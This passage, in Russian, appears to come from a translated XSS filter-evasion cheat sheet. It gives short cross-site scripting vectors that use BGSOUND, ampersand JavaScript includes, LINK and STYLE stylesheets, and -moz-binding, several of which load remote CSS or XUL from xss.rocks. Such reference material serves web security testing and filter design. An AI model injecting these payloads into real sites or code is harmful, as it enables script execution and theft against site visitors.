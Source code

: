 - `onURLFlip()` (это событие срабатывает, когда файл расширенного потокового формата (ASF), воспроизводимый с помощью мультимедийного тега HTML+TIME (Timed Interactive Multimedia Extensions), обрабатывает команды сценария, встроенные в ASF-файл).
- `seekSegmentTime()` (это метод, который определяет местоположение указанной точки на временной шкале сегмента элемента и начинает воспроизведение с этой точки. Сегмент состоит из одного повторения временной шкалы, включая воспроизведение в обратном порядке с использованием атрибута AUTOREVERSE.)

#### BGSOUND

```js
<BGSOUND SRC="javascript:alert('XSS');">
```

#### Включение & в JavaScript 

```html
<BR SIZE="&{alert('XSS')}">
```

#### Таблица стилей

```html
<LINK REL="stylesheet" HREF="javascript:alert('XSS');">
```

### Внешняя таблица стилей

Используя такую простую вещь, как удаленная таблица стилей, вы можете включить свой XSS, поскольку параметр style можно переопределить с помощью встроенного выражения. Это работает только в IE. Обратите внимание, что на странице нет ничего, что указывало бы на наличие встроенного JavaScript. Примечание: Во всех этих примерах удаленных таблиц стилей используется тег body, поэтому он не будет работать, если на странице нет какого-либо содержимого, отличного от самого вектора, поэтому вам нужно добавить одну букву на страницу, чтобы заставить его работать, если это пустая страница:

```html
<LINK REL="stylesheet" HREF="http://xss.rocks/xss.css">
```

#### Внешняя таблица стилей, часть 2

Это работает так же, как описано выше, но использует тег `<STYLE>` вместо тега `<LINK>`). Небольшое изменение этого вектора было использовано для взлома Google Desktop. В качестве дополнительного замечания, вы можете удалить конечный тег `</STYLE>`, если сразу после вектора есть HTML, чтобы закрыть его. Это полезно, если вы не можете использовать знак равенства или косую черту в своей межсайтовой скриптовой атаке, которая хотя бы раз применялась в реальном мире:

```html
<STYLE>@import'http://xss.rocks/xss.css';</STYLE>
```

#### Внешняя таблица стилей, часть 3

Это работает только в движках рендеринга Gecko и работает путем привязки файла XUL к родительской странице.

```html
<STYLE>BODY{-moz-binding:url("http://xss.rocks/xssmoz.xml#xss")}</STYLE>
```
